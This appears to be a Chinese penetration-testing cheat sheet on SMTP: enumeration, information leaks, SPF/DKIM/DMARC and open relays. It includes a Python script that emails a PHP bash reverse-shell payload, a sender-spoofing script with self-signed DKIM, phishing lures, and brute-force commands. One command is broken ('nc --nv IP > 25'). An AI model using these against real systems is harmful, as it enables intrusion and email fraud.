

# 25/465/587 -- SMTP/s

## 基本信息

SMTP (简单邮件传输协议) 一种用于`发送和接收电子邮件的 TCP/IP 协议`，但是由于他在接收端对消息的接受能力有限,因此通常和 POP3/IMAP 一起使用，使用户可以将消息保存在服务器邮箱中并可以从服务器下载它们

默认端口 ： 25， 465(ssl)，587(ssl)

```shell
PORT   STATE SERVICE REASON  VERSION
25/tcp open  smtp    syn-ack Microsoft ESMTP 6.0.3790.3959
```

## 基本活动

### 1. 基本连接

1.  邮件传输协议

    ```shell
    nc --nv IP > 25
    ```
2.  短信服务

    ```shell
    openssl s_client -crlf -connect smtp.mailgun.org:465 #SSL/TLS 没有 starttls 命令
    openssl s_client -starttls smtp -crlf -connect smtp.mailgun.org:587
    ```

### 2. 查找 MX 服务器

```shell
dig +short mx google.com
```

### 3. 枚举

```shell
nmap -p25 --script smtp-commands 10.10.10.10
nmap -p25 --script smtp-open-relay 10.10.10.10 -v
```

### 4. NTLM Auth - 信息泄露

> 如果服务器支持 NTLM 身份验证 (Windows) 就可以获得敏感信息的版本 --> [博客](https://medium.com/swlh/internal-information-disclosure-using-hidden-ntlm-authentication-18de17675666)

```shell
root@kali: telnet example.com 587 
220 example.com SMTP Server Banner 
>> HELO 
250 example.com Hello [x.x.x.x] 
>> AUTH NTLM 334 
NTLM supported 
>> TlRMTVNTUAABAAAAB4IIAAAAAAAAAAAAAAAAAAAAAAA= 
334 TlRMTVNTUAACAAAACgAKADgAAAAFgooCBqqVKFrKPCMAAAAAAAAAAEgASABCAAAABgOAJQAAAA9JAEkAUwAwADEAAgAKAEkASQBTADAAMQABAAoASQBJAFMAMAAxAAQACgBJAEkAUwAwADEAAwAKAEkASQBTADAAMQAHAAgAHwMI0VPy1QEAAAAA
```

以上行为也可以使用 nmap 的 `smtp-ntlm-info.nse` 自动执行

### 5. 内部服务器名称-信息泄露

> 当发出没有完整命令的 "MAIL FROM" 时，某些 SMTP 服务器会自动完成发件人的地址，从而泄露其内部名

```shell
220 somedomain.com Microsoft ESMTP MAIL Service, Version: Y.Y.Y.Y ready at  Wed, 15 Sep 2021 12:13:28 +0200 
EHLO all
250-somedomain.com Hello [x.x.x.x]
250-TURN
250-SIZE 52428800
250-ETRN
250-PIPELINING
250-DSN
250-ENHANCEDSTATUSCODES
250-8bitmime
250-BINARYMIME
250-CHUNKING
250-VRFY
250 OK
MAIL FROM: me  # 这里只写了 me ，而服务器却自动填充了地址，
250 2.1.0 me@PRODSERV01.somedomain.com....Sender OK
```

### 6. 嗅探

检查是否从数据报中嗅探了一些密码到端口 25

### 7. Auth 暴力破解

## 用户名暴力枚举

### 1. RCPT TO

```shell
$ telnet 10.0.10.1 25
Trying 10.0.10.1...
Connected to 10.0.10.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO x
250 myhost Hello [10.0.0.99], pleased to meet you
MAIL FROM:test@test.org
250 2.1.0 test@test.org... Sender ok
RCPT TO:test
550 5.1.1 test... User unknown
RCPT TO:admin
550 5.1.1 admin... User unknown
RCPT TO:ed
250 2.1.5 ed... Recipient ok
```

### 2. VRFY

```shell
$ telnet 10.0.0.1 25
Trying 10.0.0.1...
Connected to 10.0.0.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO
501 HELO requires domain address
HELO x
250 myhost Hello [10.0.0.99], pleased to meet you
VRFY root
250 Super-User <root@myhost>
VRFY blah
550 blah... User unknown
```

### 3. EXPN

```shell
$ telnet 10.0.10.1 25
Trying 10.0.10.1...
Connected to 10.0.10.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO
501 HELO requires domain address
HELO x
EXPN test
550 5.1.1 test... User unknown
EXPN root
250 2.1.5 <ed.williams@myhost>
EXPN sshd
250 2.1.5 sshd privsep <sshd@mail2>
```

### 4. 自动化工具

```shell
Metasploit: auxiliary/scanner/smtp/smtp_enum
smtp-user-enum: smtp-user-enum -M <MODE> -u <USER> -t <IP>
Nmap: nmap --script smtp-enum-users <IP>
```

## DSN Reports

> 如果你向某个组织发送电子邮件至无效地址，该组织将通知该地址无效并发回邮件给你，返回的电子邮件的标题将包含可能的敏感信息(eg: 与报告交互的邮件服务的 IP 地址或防病毒软件信息)

### 命令

1.  从 Linux 控制台发送电子邮件

    ```shell
    root@kali:~# sendEmail -t itdept@victim.com -f techsupport@bestcomputers.com -s 192.168.8.131 -u Important Upgrade Instructions -a /tmp/BestComputers-UpgradeInstructions.pdf
    Reading message body from STDIN because the '-m' option was not used.
    If you are manually typing in a message:
      - First line must be received within 60 seconds.
      - End manual input with a CTRL-D on its own line.

    IT Dept,

    We are sending this important file to all our customers. It contains very important instructions for upgrading and securing your software. Please read and let us know if you have any problems.

    Sincerely,
    ```

    ```
    swaks --to $(cat emails | tr '\n' ',' | less) --from test@sneakymailer.htb --header "Subject: test" --body "please click here http://10.10.14.42/" --server 10.10.10.197
    ```
2.  使用 Python 代码进行发送

    ```shell
    from email.mime.multipart import MIMEMultipart
    from email.mime.text import MIMEText
    import smtplib
    import sys

    lhost = "127.0.0.1"
    lport = 443
    rhost = "192.168.1.1"
    rport = 25 # 489,587

    # create message object instance
    msg = MIMEMultipart()

    # setup the parameters of the message
    password = "" 
    msg['From'] = "attacker@local"
    msg['To'] = "victim@local"
    msg['Subject'] = "This is not a drill!"

    # payload 
    message = ("<?php system('bash -i >& /dev/tcp/%s/%d 0>&1'); ?>" % (lhost,lport))

    print("[*] Payload is generated : %s" % message)

    msg.attach(MIMEText(message, 'plain'))
    server = smtplib.SMTP(host=rhost,port=rport)

    if server.noop()[0] != 250:
        print("[-]Connection Error")
        exit()

    server.starttls()

    # Uncomment if log-in with authencation
    # server.login(msg['From'], password)

    server.sendmail(msg['From'], msg['To'], msg.as_string())
    server.quit()

    print("[***]successfully sent email to %s:" % (msg['To']))
    ```

## 邮件欺骗

> 因为 SMTP 消息很容易被欺骗，因此组织使用 SPF/DKIM/DMARC 功能来防止各方发送未经授权的电子邮件

### 1. SPF

> SPF 为了防止随意伪造发件人 --> [参考博客](https://www.renfei.org/blog/introduction-to-spf.html)
>
> 如果要检查域的 SPF ,可以使用在线工具 --> [链接](https://www.kitterman.com/spf/validate.html)

#### 1. SPF 记录的原理

SPF 记录实际上是服务器的一个 DNS 记录，原理其实很简单：

假设邮件服务器收到了一封邮件，来自主机的 IP 是`173.194.72.103`，并且声称发件人为`email@example.com`。为了确认发件人不是伪造的，邮件服务器会去查询`example.com`的 SPF 记录。如果该域的 SPF 记录设置允许 IP 为`173.194.72.103`的主机发送邮件，则服务器就认为这封邮件是合法的；如果不允许，则通常会退信，或将其标记为垃圾/仿冒邮件。

因为不怀好心的人虽然可以「声称」他的邮件来自`example.com`，但是他却无权操作`example.com`的 DNS 记录；同时他也无法伪造自己的 IP 地址。因此 SPF 是很有效的，当前基本上所有的邮件服务提供商（例如 Gmail、QQ 邮箱等）都会验证它。

#### 2. SPF 记录的语法

一条 SPF 记录定义了一个或者多个 mechanism，而 mechanism 则定义了哪些 IP 是允许的，哪些 IP 是拒绝的。

这些 mechanism 包括以下几类：

```shell
all | ip4 | ip6 | a | mx | ptr | exists | include
```

每个 mechanism 可以有四种前缀：

```shell
"+"  Pass（通过）
"-"  Fail（拒绝）
"~"  Soft Fail（软拒绝）
"?"  Neutral（中立）
```

测试时，将从前往后依次测试每个 mechanism。如果一个 mechanism 包含了要查询的 IP 地址（称为命中），则测试结果由相应 mechanism 的前缀决定。默认的前缀为`+`。如果测试完所有的 mechanisms 也没有命中，则结果为 Neutral。

除了以上四种情况，还有 None（无结果）、PermError（永久错误）和 TempError（临时错误）三种其他情况。对于这些情况的解释和服务器通常的处理办法如下：

| 结果        | 含义                       | 服务器处理办法    |
| --------- | ------------------------ | ---------- |
| Pass      | 发件 IP 是合法的               | 接受来信       |
| Fail      | 发件 IP 是非法的               | 退信         |
| Soft Fail | 发件 IP 非法，但是不采取强硬措施       | 接受来信，但是做标记 |
| Neutral   | SPF 记录中没有关于发件 IP 是否合法的信息 | 接受来信       |
| None      | 服务器没有设定 SPF 记录           | 接受来信       |
| PermError | 发生了严重错误（例如 SPF 记录语法错误）   | 没有规定       |
| TempError | 发生了临时错误（例如 DNS 查询失败）     | 接受或拒绝      |

注意，上面所说的「服务器处理办法」仅仅是 SPF 标准做出的建议，并非所有的邮件服务器都严格遵循这套规定。

#### 3. Mechanisms

1.  all

    > 表示所有 IP，肯定会命中。因此通常把它放在 SPF 记录的结尾，表示处理剩下的所有情况。例如：
    >
    > ```shell
    > "v=spf1 -all" 拒绝所有（表示这个域名不会发出邮件）
    > "v=spf1 +all" 接受所有（域名所有者认为 SPF 是没有用的，或者根本不在乎它）
    > ```
2.  ip4

    > 格式为`ip4:<ip4-address>`或者`ip4:<ip4-network>/<prefix-length>`，指定一个 IPv4 地址或者地址段。如果`prefix-length`没有给出，则默认为`/32`。例如：
    >
    > ```shell
    > "v=spf1 ip4:192.168.0.1/16 -all"
    > 只允许在 192.168.0.1 ~ 192.168.255.255 范围内的 IP
    > ```
3.  ip6

    > 格式和`ip4`的很类似，默认的`prefix-length`是`/128`。例如：
    >
    > ```shell
    > "v=spf1 ip6:1080::8:800:200C:417A/96 -all"
    > 只允许在 1080::8:800:0000:0000 ~ 1080::8:800:FFFF:FFFF 范围内的 IP
    > ```
4.  a 和 mx

    > 这俩的格式是相同的，以`a`为例，格式为以下四种之一：
    >
    > ```shell
    > a
    > a/<prefix-length>
    > a:<domain>
    > a:<domain>/<prefix-length>
    > ```
    >
    > 会命中相应域名的 a 记录（或 mx 记录）中包含的 IP 地址（或地址段）。如果没有提供域名，则使用当前域名。例如：
    >
    > ```shell
    > "v=spf1 mx -all"
    > 允许当前域名的 mx 记录对应的 IP 地址。
    >
    > "v=spf1 mx mx:deferrals.example.com -all"
    > 允许当前域名和 deferrals.example.com 的 mx 记录对应的 IP 地址。
    >
    > "v=spf1 a/24 -all"
    > 类似地，这个用法则允许一个地址段。
    > ```
    >
    > 例如，这是一个比较常见的 SPF 记录，它表示支持当前域名的 a 记录和 mx 记录，同时支持一个给定的 IP 地址；其他地址则拒绝：
    >
    > ```shell
    > v=spf1 a mx ip4:173.194.72.103 -all
    > ```
5.  include

    > 格式为`include:<domain>`，表示引入`<domain>`域名下的 SPF 记录。注意，如果该域名下不存在 SPF 记录，则会导致一个`PermError`结果。例如：
    >
    > ```shell
    > "v=spf1 include:example.com -all" 即采用和 example.com 完全一样的 SPF 记录
    > ```
6.  exists

    > 格式为`exists:<domain>`。将对`<domain>`执行一个 A 查询，如果有返回结果（无论结果是什么），都会看作命中。
7.  ptr

    > 格式为`ptr`或者`ptr:<domain>`。使用`ptr`机制会带来大量很大开销的 DNS 查询，所以连官方都不推荐使用它。
8.  redirect

    > 格式为`redirect=<domain>`
    >
    > 将用给定域名的 SPF 记录替换当前记录。
9.  exp

    > 格式为`exp=<domain>`，目的是如果邮件被拒绝，可以给出一个消息。而消息的具体内容会首先对`<domain>`执行 TXT 查询，然后执行宏扩展得到。

### 2. DKIM

> DKIM 在电子邮件的标题中插入一个数字签名，邮件接收服务器在后到 DKIM 签名的邮件后，可验证邮件是否确实来自发件人，DKIM 使用公钥加密发，依赖于一对密钥，公钥保存在域的 TXT 记录中，但是必须知道域名才能检索它

```shell
dig 20120113._domainkey.gmail.com TXT | grep p=
20120113._domainkey.gmail.com. 280 IN   TXT    "k=rsa\; p=MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCg
KCAQEA1Kd87/UeJjenpabgbFwh+eBCsSTrqmwIYYvywlbhbqoo2DymndFkbjOVIPIldNs/m40KF+yzMn1skyoxcTUGCQs8g3
```

### 3. DMARC

> 这是一种在 SPF 和 DKIM 基础上扩展的邮件身份验证方法

<figure><figcaption></figcaption></figure>

获取DMARC记录需要查询 \_dmarc 子域名

```shell
root@kali:~# dig _dmarc.yahoo.com txt | grep DMARC
_dmarc.yahoo.com.  1785 IN TXT "v=DMARC1\; p=reject\; sp=none\; pct=100\; 
rua=mailto:dmarc-yahoo-rua@yahoo-inc.com, mailto:dmarc_y_rua@yahoo.com\;"

root@kali:~# dig _dmarc.google.com txt | grep DMARC
_dmarc.google.com. 600 IN TXT "v=DMARC1\; p=quarantine\; rua=mailto:mailauth-reports@google.com"

root@kali:~# dig _dmarc.paypal.com txt | grep DMARC
_dmarc.paypal.com. 300 IN TXT "v=DMARC1\; p=reject\; rua=mailto:d@rua.agari.com\; 
ruf=mailto:dk@bounce.paypal.com,mailto:d@ruf.agari.com"
```

| 标签名   | 作用                                                                                                                     | 示例                              |
| ----- | ---------------------------------------------------------------------------------------------------------------------- | ------------------------------- |
| v     | 协议版本                                                                                                                   | v=DMARC1                        |
| pct   | 对失败邮件应用策略的百分比                                                                                                          | pct=20                          |
| ruf   | 接受失败报告的电子邮件                                                                                                            | ruf=mailto:authfail@example.com |
| rua   | 接受聚合报告的电子邮件                                                                                                            | rua=mailto:aggrep@example.com   |
| p     | 策略，该策略将被应用到验证失败的邮件上。可以设置成 'none', 'quarantine', 或者 'reject'。'none' 用来收集 DMARC 报告。'quarantine' 用来隔离可疑邮件。'reject' 拒收可疑邮件 | p=quarantine                    |
| sp    | 子域名策略                                                                                                                  | sp=reject                       |
| adkim | 指定 DKIM 的对齐策略                                                                                                          | adkim=s                         |
| aspf  | 指定 SPF 的对齐策略                                                                                                           | aspf=r                          |

### 4. 子域？

参考文章--> [链接](https://serverfault.com/questions/322949/do-spf-records-for-primary-domain-apply-to-subdomains)

### 5. 中继

为防止发送的邮件被垃圾邮件过滤器过滤而无法到达收件人，发件人可以使用收件人信任的中继服务器。通常，管理员没有概述他们必须允许哪些IP范围。这会导致我们在外部和内部渗透测试中仍然经常发现的 SMTP 服务器配置错误。因此，它们允许所有 IP 地址不会在电子邮件流量中造成错误，从而不会干扰或无意中中断与潜在和当前客户的通信

```bash
mynetworks = 0.0.0.0/0
```

```bash
nmap -p25 --script smtp-open-relay 10.10.10.10 -v
```

### 6. 工具

* [mailspoof ](https://github.com/serain/mailspoof)检查 SPF 和 DMARC 配置错误
* [checkdmarc ](https://pypi.org/project/checkdmarc/)自动获取 SPF 和 DMARC 配置

### 7. 发送恶搞邮件

* [anonymailer](https://www.anonymailer.net/)
* [emkei](https://emkei.cz/)
* [magicspoofing](https://github.com/magichk/magicspoofing)

```bash
# This will send a test email from test@victim.com to destination@gmail.com
python3 magicspoofmail.py -d victim.com -t -e destination@gmail.com
# But you can also modify more options of the email
python3 magicspoofmail.py -d victim.com -t -e destination@gmail.com --subject TEST --sender administrator@victim.com
```

或者手动完成



```php
# This will send an unsigned message
mail("your_email@gmail.com", "Test Subject!", "hey! This is a test", "From: administrator@victim.com");
```



```python
# Code from https://github.com/magichk/magicspoofing/blob/main/magicspoofmail.py

import os
import dkim #pip3 install dkimpy
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase

# Set params
destination="destination@gmail.com"
sender="administrator@victim.com"
subject="Test"
message_html="""
<html>
	<body>
		<h3>This is a test, not a scam</h3>
		<br />
	</body>
</html>
"""
sender_domain=sender.split("@")[1]

# Prepare postfix
os.system("sudo sed -ri 's/(myhostname) = (.*)/\\1 = "+sender_domain+"/g' /etc/postfix/main.cf")
os.system("systemctl restart postfix")

# Generate DKIM keys
dkim_private_key_path="dkimprivatekey.pem"
os.system(f"openssl genrsa -out {dkim_private_key_path} 1024 2> /dev/null")
with open(dkim_private_key_path) as fh:
    dkim_private_key = fh.read()

# Generate email
msg = MIMEMultipart("alternative")
msg.attach(MIMEText(message_html, "html"))
msg["To"] = destination
msg["From"] = sender
msg["Subject"] = subject
headers = [b"To", b"From", b"Subject"]
msg_data = msg.as_bytes()

# Sign email with dkim
## The receiver won't be able to check it, but the email will appear as signed (and therefore, more trusted)
dkim_selector="s1"
sig = dkim.sign(message=msg_data,selector=str(dkim_selector).encode(),domain=sender_domain.encode(),privkey=dkim_private_key.encode(),include_headers=headers)
msg["DKIM-Signature"] = sig[len("DKIM-Signature: ") :].decode()
msg_data = msg.as_bytes()

# Use local postfix relay to send email
smtp="127.0.0.1"
s = smtplib.SMTP(smtp)
s.sendmail(sender, [destination], msg_data)
```



### 其他网络钓鱼方法

* 域的年龄&#x20;
* 指向 IP 地址的链接&#x20;
* 链接操作技术&#x20;
* 可疑（不常见）附件&#x20;
* 损坏的电子邮件内容&#x20;
* 使用的值与邮件标头的值不同&#x20;
* 存在有效且受信任的 SSL 证书&#x20;
* 将页面提交到 Web 内容过滤站点

## 配置文件

通常，如果已安装，/etc/postfix/master.cf 包含在用户收到新邮件时执行的脚本。 例如，`flags=Rq user=mark argv=/etc/postfix/filtering-f ${sender} -- ${recipient}` 表示如果用户收到新邮件，将执行 /etc/postfix/filtering 标记。

```bash
sendmail.cf
submit.cf
```

### HackTricks 自动执行命令

```bash
协议名称: SMTP    
端口号:  25,465,587     
协议说明: Simple Mail Transfer Protocol          

Entry_1:
  名称: 笔记
  Description: Notes for SMTP
  Note: |
    SMTP（简单邮件传输协议）是一种用于发送和接收电子邮件的 TCP/IP 协议。 但是，由于它在接收端对消息接受的能力有限，因此它通常与其他两种协议之一（POP3 或 IMAP）一起使用，使用户可以将消息保存在服务器邮箱中并定期从服务器下载它们。

    https://book.hacktricks.xyz/pentesting/pentesting-smtp

Entry_2:
  Name: Banner Grab
  Description: 抓取 Banner Grab
  Command: nc -vn {IP} 25

Entry_3:
  Name: SMTP Vuln Scan
  Description: SMTP Vuln Scan With Nmap
  Command: nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 {IP}

Entry_4:
  Name: SMTP User Enum
  Description: Enumerate uses with smtp-user-enum
  Command: smtp-user-enum -M VRFY -U {Big_Userlist} -t {IP}

Entry_5:
  Name: SMTPS Connect
  Description: 尝试以两种不同的方式连接到 SMTPS
  Command: openssl s_client -crlf -connect {IP}:465 &&&& openssl s_client -starttls smtp -crlf -connect {IP}:587

Entry_6:
  Name: Find MX Servers
  Description: Find MX servers of an organization
  Command: dig +short mx {Domain_Name}

Entry_7:
  Name: Hydra Brute Force
  Description: Need Nothing
  Command: hydra -P {Big_Passwordlist} {IP} smtp -V
  
Entry_8:
  Name: consolesless mfs enumeration
  Description: 无需运行 msfconsole 的 SMTP 枚举
  Note: sourced from https://github.com/carlospolop/legion
  Command: msfconsole -q -x 'use auxiliary/scanner/smtp/smtp_version; set RHOSTS {IP}; set RPORT 25; run; exit' && msfconsole -q -x 'use auxiliary/scanner/smtp/smtp_ntlm_domain; set RHOSTS {IP}; set RPORT 25; run; exit' && msfconsole -q -x 'use auxiliary/scanner/smtp/smtp_relay; set RHOSTS {IP}; set RPORT 25; run; exit' 
    
```
